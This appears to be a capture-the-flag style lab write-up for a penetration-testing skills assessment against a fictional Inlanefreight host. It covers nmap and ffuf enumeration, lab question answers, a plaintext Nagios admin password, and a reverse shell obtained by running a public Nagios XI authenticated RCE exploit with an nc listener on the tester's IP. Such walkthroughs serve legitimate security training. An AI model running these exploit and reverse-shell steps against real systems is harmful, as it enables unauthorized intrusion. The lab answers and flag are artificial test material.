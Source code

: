 # Attacking Common Applications - Skills Assessment II

During an external penetration test for the company Inlanefreight, you come across a host that, at first glance, does not seem extremely interesting. At this point in the assessment, you have exhausted all options and hit several dead ends. Looking back through your enumeration notes, something catches your eye about this particular host. You also see a note that you don't recall about the `gitlab.inlanefreight.local` vhost.

Performing deeper and iterative enumeration reveals several serious flaws. Enumerate the target carefully and answer all the questions below to complete the second part of the skills assessment.

**Questions**

nmap scans

<pre class="language-bash"><code class="lang-bash">sudo nmap -sS -n -Pn -p- --min-rate 5000 gitlab.inlanefreight.local -sV -sC
<strong>PORT     STATE SERVICE    VERSION
</strong>22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: skills2, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://gitlab.inlanefreight.local:8180/
|_http-server-header: Apache/2.4.41 (Ubuntu)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.41
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Shipter\xE2\x80\x93Transport and Logistics HTML5 Template 
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=10.129.201.90/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2021-09-02T01:49:48
|_Not valid after:  2031-08-31T01:49:48
5667/tcp open  tcpwrapped
8060/tcp open  http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: 404 Not Found
8180/tcp open  http       nginx
| http-robots.txt: 54 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /help /s/ /-/profile /-/ide/ 
|_/*/new /*/edit /*/raw
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://gitlab.inlanefreight.local:8180/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
9094/tcp open  unknown
Service Info: Hosts:  skills2, 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
</code></pre>

first we do ffuf vhost enumeration

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://inlanefreight.local -H 'Host: FUZZ.inlanefreight.local' -fs 46166
#blog                    [Status: 200, Size: 50116, Words: 16140, Lines: 1015, Duration: 2185ms]
#monitoring              [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 433ms]
#gitlab                  [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 244ms]
```

What is the URL of the WordPress instance?

```
http://blog.inlanefreight.local
```

What is the name of the public GitLab project?

```
virtualhost
```

What is the FQDN of the third vhost?

```
monitoring.inlanefreight.local
```

What application is running on this third vhost? (One word)

```
nagios
```

What is the admin password to access this application?

<pre class="language-bash"><code class="lang-bash"><strong>#just create gitlab account and look inside :)
</strong><strong>postgres=# CREATE USER nagiosadmin WITH PASSWORD 'oilaKglm7M09@CPL&#x26;^lC';
</strong></code></pre>

Obtain reverse shell access on the target and submit the contents of the flag.txt file.

```bash
searchsploit nagios XI   
#Nagios XI 5.7.X - Remote Code Execution RCE (Authenticated | php/webapps/49422.py
cp /usr/share/exploitdb/exploits/php/webapps/49422.py .
python3 49422.py http://monitoring.inlanefreight.local nagiosadmin 'oilaKglm7M09@CPL&^lC' 10.10.14.59 4444
nc -nvlp 4444
#we got shells
find / -name *flag*.txt 2>/dev/null
/usr/local/nagiosxi/html/admin/f5088a862528cbb16b4e253f1809882c_flag.txt
afe377683dce373ec2bf7eaf1e0107eb
```
